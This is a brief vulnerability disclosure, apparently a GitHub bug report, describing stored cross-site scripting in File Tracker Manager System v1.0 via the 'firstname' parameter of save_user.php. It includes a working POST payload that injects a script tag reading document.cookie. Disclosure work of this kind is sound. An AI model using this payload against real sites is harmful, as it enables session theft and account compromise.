 # File Tracker Manager System v1.0 has stored cross-site scripting

BUG_Author: HaolunSong

Website source code address: https://www.sourcecodester.com/php/11510/file-tracker-manager.html

Vulnerability File: /file_manager/admin/save_user.php

Parameter "firstname" (POST), exists stored cross-site scripting vulnerability

Payload:status=normal&emplnumber=2&firstname=<script>alert(document.cookie)</script>&lastname=3&region=zanzibar

![image](https://github.com/csbsong/bug_report/blob/main/xss1.png)

Payload will trigger when a user visits on http://localhost/file_manager/admin/admin_user.php

![image](https://github.com/csbsong/bug_report/blob/main/xss2.png)
